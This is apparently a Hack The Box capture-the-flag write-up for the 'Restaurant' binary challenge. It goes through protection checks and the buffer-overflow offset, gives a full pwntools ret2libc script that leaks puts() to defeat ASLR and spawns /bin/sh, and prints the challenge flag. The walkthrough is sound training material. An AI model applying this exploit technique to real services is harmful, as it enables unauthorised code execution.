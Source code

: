 # Restaurant
> Write-up author: vreshco
## DESCRIPTION:
Welcome to our Restaurant. Here, you can eat and drink as much as you want! Just don't overdo it..
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218115116-506eedf0-2fd5-4456-821b-2e840a5b4910.png)


2. Let's check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218115265-0417d28f-2401-4961-a53b-0b84149e075c.png)


3. Now we know, the **restaurant** is a 64 bit binary file and it's not stripped, let's check the binary's protections.

> VULN - NO CANARY FOUND, NO PIE.

![image](https://user-images.githubusercontent.com/70703371/218116059-7fc94767-9177-42f5-b2cd-66e4deba8b90.png)


4. Now let's decompile the binary using ghidra.
5. At the `fill()` function, looks like there's a bufferoverflow, not only that we can leak the address of `puts()`.

![image](https://user-images.githubusercontent.com/70703371/218119145-7fe380f3-fbfb-44a0-9c7f-876f5c90b093.png)


6. Let's get the offset of RIP first by get a segmentation fault with running the binary in gdb.
7. Enter 1024 bytes.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218121772-d33483b6-d7ee-4d9e-90b6-9216d265edc1.png)


8. Since there's no value leaked at the RIP, we can use the RSP offset.

> RESULT - 40

![image](https://user-images.githubusercontent.com/70703371/218122089-5186b81e-be34-4433-8d53-9745341c834d.png)


9. Well, notice that there's no interesting function to jump or flag function, then we given a libc library, hence the approach here is `ROP`.
10. The steps here, first we need to craft a `ROP exploit` so we can leak any library function's address.
11. Find the correct libc library used (in this case we don't need to, because we the library is given).
12. Calculate & set the ASLR base address of libc library used in the server.
13. ROP payload for system call bash.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './restaurant'
libc_library = './libc.so.6'
elf = context.binary = ELF(exe, checksec=False)
libc = context.binary = ELF(libc_library, checksec=False)
context.log_level = 'debug'

sh = start()

offsetRsp = b'A' * 40

### 1ST PAYLOAD

rop = ROP(elf) 
rop.call(elf.plt['puts'], [next(elf.search(b''))])

rop.call(elf.plt['puts'], [elf.got['puts']])

# for stack alignment (must align to 16 bytes)
rop.call((rop.find_gadget(['ret']))[0]) 
#print(rop.dump()) # to see the alignment

# goes back to fill(), so we can setup our next ROP
rop.call(elf.sym['fill']) 

# combine into usable payload
ropGetlibcaslr_addr = offsetRsp + rop.chain()
log.info(rop.dump())

sh.sendlineafter(b'>', b'1')
# exploit the vuln to print out the ASLR addr of puts() for libc in the server
sh.sendlineafter(b'>', ropGetlibcaslr_addr) 

# ignore empty space printed to us
sh.recvuntil(b'\n')
# ignore the 1st line statement printed to use as is 
# by the program to tell us "Enjoy your <input value>" before reaching RET
sh.recvuntil(b'\n') 

# get the leaked address of ASLR puts()
leakedputsLibc = u64(sh.recvuntil(b'\n').strip().ljust(8, b'\x00'))
info('Server libc, puts() addr: %#x', leakedputsLibc)

serverLibcbase_addr = leakedputsLibc - libc.symbols['puts']
info('Server libc base addr: %#x', serverLibcbase_addr)

libc.address = serverLibcbase_addr

### 2ND PAYLOAD - craft sys call to /bin/sh

ropLibc = ROP(libc)
ropLibc.call((ropLibc.find_gadget(['ret']))[0]) # align stack (16 bytes)
ropLibc.call(libc.sym['system'], [next(libc.search(b'/bin/sh\x00'))])

# combine into usable payload
ropGetbash = offsetRsp + ropLibc.chain()
log.info(ropLibc.dump())

### GET SHELL
sh.sendlineafter(b'>', ropGetbash)
sh.interactive()
```

14. Run the script remotely.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218248357-633b42a1-5501-413e-ac46-7cedf555012d.png)


15. Got the flag!

## FLAG

```
HTB{r3turn_2_th3_r3st4ur4nt!}
```


